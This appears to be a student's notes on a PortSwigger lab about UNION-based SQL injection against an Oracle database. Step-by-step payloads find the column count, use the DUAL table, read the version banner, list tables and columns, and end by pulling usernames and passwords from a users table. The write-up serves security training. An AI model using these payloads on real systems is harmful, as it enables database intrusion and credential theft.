 # Oracle

a parameter

' - Gives error

'' - Error disappears.

```
' ORDER BY 1-- OK
' ORDER BY 2-- OK
' ORDER BY 3-- OK
' ORDER BY 4-- OK
' ORDER BY 5-- ERROR

' UNION SELECT 'a',NULL,NULL,NULL-- ERROR
```

Something went wrong with the search: java.sql.SQLSyntaxErrorException: ORA-00923: FROM keyword not found where expected

> On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.\
> There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual\
> For more information, see our SQL injection cheat sheet.

We can use legit database from Oracle - FROM DUAL

```
' UNION SELECT NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL,NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL,NULL,NULL FROM DUAL-- OK.

' UNION SELECT 'a',NULL,NULL,NULL FROM DUAL-- OK.
' UNION SELECT NULL,'a',NULL,NULL FROM DUAL-- OK.
‘ UNION SELECT NULL,NULL,’a',NULL FROM DUAL-- ERROR
' UNION SELECT NULL,NULL,1,NULL FROM DUAL-- OK.
```

\| Oracle | SELECT banner FROM v$version SELECT version FROM v$instance |

[https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

```
' UNION SELECT banner,NULL,NULL,NULL FROM v$version--
```

```
Oracle Database 18c Express Edition Release 18.0
```

https://www.oracletutorial.com/oracle-administration/oracle-show-tables/

```
' UNION SELECT table_name,NULL,NULL,NULL FROM user_tables-- OK.
' UNION SELECT table_name,NULL,NULL,NULL FROM all_tables-- OK.
' UNION SELECT table_name,NULL,NULL,NULL FROM dba_tables-- ERROR.
```

```
' UNION SELECT column_name,NULL,NULL,NULL FROM all_tab_columns WHERE table_name='TESTUSERS'--
```

```
PASSWORD
USERID
USERNAME
```

```
' UNION SELECT PASSWORD,USERNAME,USERID,NULL FROM TESTUSERS--
```
